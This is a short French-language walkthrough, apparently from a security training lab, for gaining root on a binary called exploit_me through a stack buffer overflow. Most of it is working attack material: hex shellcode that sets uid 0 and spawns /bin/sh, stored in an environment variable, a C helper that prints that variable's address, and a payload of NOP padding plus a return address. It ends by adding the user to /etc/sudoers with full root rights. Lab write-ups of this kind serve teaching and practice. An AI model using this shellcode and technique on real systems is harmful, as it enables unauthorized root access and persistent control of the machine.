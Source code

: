 Etape 1 :
Ce connecter avec les identifiants zaz.
Etape 2 :

faire la commande : 
	export OPEN_TERMINAL=$'\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xdb\x89\xd8\xb0\x17\xcd\x80\x31\xdb\x89\xd8\xb0\x2e\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80'

cree un program qui retourne une l'adresse de la variable d'environment
	#include <stdio.h>
	#include <stdlib.h>

	int main(int argc, char **argv)
	{
		if (argc == 2)
		{
			char* ptr = getenv(argv[1]);
			printf("%p\n", ptr);
		}
	}

le compiler et le lancer : 
	gcc env_adress.c -o env_adress
	./getEnvAddress OPEN_TERMINAL
	0xbffffe60

ensuite utiliser exploit_me avec une chaine de le payload suivant :
	./exploit_me $(python -c 'print "\x90" * 140 + "\x60\xfe\xff\xbf"')

Des qu'on a les droit root on donne tout les privilege root a l'utilisateur zaz dans le fichier /etc/sudoers